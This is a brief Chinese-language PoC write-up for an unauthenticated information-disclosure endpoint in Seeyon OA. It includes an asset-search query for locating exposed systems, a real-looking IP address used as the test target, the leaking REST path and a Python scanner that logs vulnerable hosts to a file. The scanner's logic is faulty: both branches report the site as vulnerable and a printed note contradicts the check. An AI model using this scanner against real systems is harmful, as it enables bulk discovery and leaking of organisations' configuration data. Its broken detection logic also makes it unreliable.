 ## 一、资产搜索

```
app="致远互联-OA"
```

## 二、网站测试

```
http://121.199.0.42:8086
```

## 三、验证漏洞

```
/seeyon/rest/m3/common/system/properties
```

![image-20240908181329558](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240908181329558.png)

## 四、POC

```
def poc(target):
    payload = "/seeyon/rest/m3/common/system/properties"
    res1 = requests.get(url=target,verify=False,timeout=5)
    proxies = {
        'http': 'http://127.0.0.1:8080',
        'https': 'http://127.0.0.1:8080'
    }
    try:
        if res1.status_code == 200:
            res2 = requests.get(url=target+payload,verify=False,timeout=5)
            res3 = json.loads(res2.text)
            print("注意：如果网站不存在信息泄露，则会输出data")
            if res3['data']['sms.cmpp3.host'] == '':
                with open("result.txt",'a',encoding='utf-8') as f:
                    f.write(f"[+]{target}\n")
                    f.close()
                    print(f"[+]该网站{target}存在信息泄露")
            elif res3['data']['sms.cmpp3.host'] != '':
                print(f"[-]该网站{target}存在信息泄露")
        else:
            print("访问超时，请手动测试！！！")
    except Exception as e:
        print(e)
```

## 五、测试结果

![image-20240908181443383](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240908181443383.png)

![image-20240908183751286](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240908183751286.png)

